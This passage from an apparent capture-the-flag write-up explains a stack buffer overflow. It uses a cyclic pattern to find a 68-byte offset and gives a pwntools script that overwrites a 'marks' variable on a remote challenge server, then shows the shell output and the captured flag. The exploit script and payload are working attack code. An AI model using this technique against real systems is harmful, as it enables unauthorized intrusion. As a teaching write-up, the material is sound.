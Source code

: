 > I generated that `aaaa...` pattern by using `$ cyclic 100`
{: .prompt-tip }

You can clearly see that the current instruction `=> 0x555555555404 <main+310>:	cmp    eax,0x64` is comparing the value in register eax with 0x64 ( or 100, in decimal ). This was supposed to store the `marks` variable but since our `comments` were 100 bytes instead of the allocated 64 bytes, the rest of the data got overwritten into nearby locations on the stack, one of them happens to be `marks`. The eax register holds the value for `marks` and is currently loaded with the value `RAX: 0x61616172 ('raaa')` proving that 0x61616172 is overwritten. Let's use this value to calculate the offset.
```console
$ cyclic -l 0x61616172
68
```

So anything after the first 64 bytes will be written over `marks`. Let's create an exploit script with this information.
```py
from pwn import *

p = remote('34.70.212.151', 8004)

p.sendlineafter(b'Roll Number : ', b'1')
p.sendlineafter(b'Name : ', b'VulnX')

offset = 68
payload  = b''
payload += b'A' * offset
payload += b'\x64'
p.sendlineafter(b'Any Comments ?\n', payload)
p.clean()

p.interactive()
```
{: file="get_flag.py" }

and let's give it a go
```console
> python get_flag.py
[+] Opening connection to 34.70.212.151 on port 8004: Done
[*] Switching to interactive mode
Thanks !
Cool ! Here is your shell !
$ ls
chal
flag.txt
$ cat flag.txt
flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}
```

### FLAG

`flag{Y0u_ju57_0v3rfl0wed_y0ur_m4rk5}`

## web/php_sucks

